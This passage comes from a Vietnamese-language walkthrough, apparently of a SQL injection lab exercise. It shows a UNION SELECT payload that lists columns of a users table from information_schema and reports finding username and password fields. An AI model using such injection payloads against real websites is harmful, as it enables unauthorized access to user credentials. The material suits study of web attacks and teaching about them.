   <img src="img/img5.jpg" alt="Minh họa" width="600">
  <br>
  <em>Hình 5: Minh họa kết quả</em>
</div>
#### 🔸 Bước 2: Xác định bảng chứa thông tin người dùng
- 🔍 Phân tích danh sách bảng đã lấy được
- 🎯 Xác định bảng `users_ifhciw` có khả năng cao nhất chứa thông tin người dùng

#### 🔸 Bước 3: Liệt kê các cột trong bảng users
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_ifhciw'--
```

> **📊 Kết quả:**
- ✅ Lấy được các trường: `password_pphepo`, `email`, `username_aaxkto`
- ✅ Xác định cấu trúc bảng chứa thông tin đăng nhập
<div align="center">